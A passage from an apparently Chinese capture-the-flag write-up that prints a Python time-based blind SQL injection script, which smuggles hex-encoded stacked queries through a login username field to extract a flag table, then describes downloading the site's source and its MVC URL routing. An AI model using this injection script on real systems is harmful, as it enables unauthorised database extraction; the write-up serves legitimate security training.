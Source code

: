 ```
 
def sqli():
    name = ''
    for j in range(1, 250):
        top = 126
        bot = 32
        while 1:
            #babyselect = 'database()'#--->ctf
            #babyselect = '(select group_concat(table_name) ' \
            #             'from information_schema.tables where table_schema=database())'#---flag
            # babyselect = '(select group_concat(column_name) ' \
            #             'from information_schema.columns where table_name='flag')'#--->flag
            babyselect = '(select flag from flag)'#--->glzjin_wants_a_girl_friend.zip
            select = "select if((ascii(substr(" +babyselect+ ",{},1))> {}),sleep(3),1);"\
                .format(j, mid(bot, top))
            playload = "1';set @a="+ char_to_hex(select) +";PREPARE test from @a;execute test;"
 
            data = {
                "username": playload,
                "password": "1"
            }
            print(mid(bot, top))
            start_time = time.time()
            r = requests.post(url=host, json=data)
            end_tmie = time.time()
            #print(r.text)
            if end_tmie - start_time > 1.5:  # 成功
                if top - 1 == bot:  # top和bot相邻，说明name是top
                    name += chr(top)
                    print(name)
                    break
                bot = mid(bot, top)  # 成功就上移bot
            else:  # 失败
                if top - 1 == bot:  # top和bot相邻，加上失败，说明name是bot
                    name += chr(bot)
                    print(name)
                    break
                top = mid(bot, top)  # 失败就下移top
 
 
if __name__ == '__main__':
    sqli()
```

得到：glzjin_wants_a_girl_friend.zip

然后看的出来是个文件，访问下载之，得到网站源码。
很明显，我们要通过某种方法将flag.php中的文件内容给读取出来。

这是个MVC模型，首先了解一下该框架下url的解析过程：

- 从r参数中获取要访问的 `Controller` 以及 `Action` ,然后以 `/` 分隔开后拼接成完整的控制器名。
  以 `Login/Index` 为例，就是将 `Login/Index` 分隔开分别拼接成 `LoginController` 以及 `actionIndex` ,然后调用 `LoginController`
  这个类中的 `actionIndex` 方法。每个 `action` 里面会调用对应的 `loadView()` 方法进行模版渲染，然后将页面返回给客户端。
  若访问的 `Controller` 不存在则默认解析 `Login/Index` 。
